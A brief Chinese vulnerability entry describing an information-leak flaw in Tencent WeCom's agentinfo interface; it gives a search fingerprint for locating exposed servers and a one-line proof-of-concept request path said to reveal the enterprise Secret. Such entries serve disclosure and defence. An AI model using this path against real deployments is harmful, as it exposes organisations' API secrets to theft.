 # 腾讯 企业微信 agentinfo 信息泄漏漏洞

## 漏洞描述

腾讯 企业微信 agentinfo 接口存在信息泄漏漏洞，攻击者通过漏洞可以获取企业微信 Secret

## 漏洞影响

<a-checkbox checked>腾讯 企业微信</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="wework_admin.normal_layout"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1691826671192-b1e9846a-3d9d-423e-aa0f-8800074af3c5.png)

验证POC

```php
/cgi-bin/gateway/agentinfo
```

![img](/assets/PeiQi-Wiki/img/1691826986597-d2dc28f9-7e86-4752-8fae-954bf44d5e0b.png)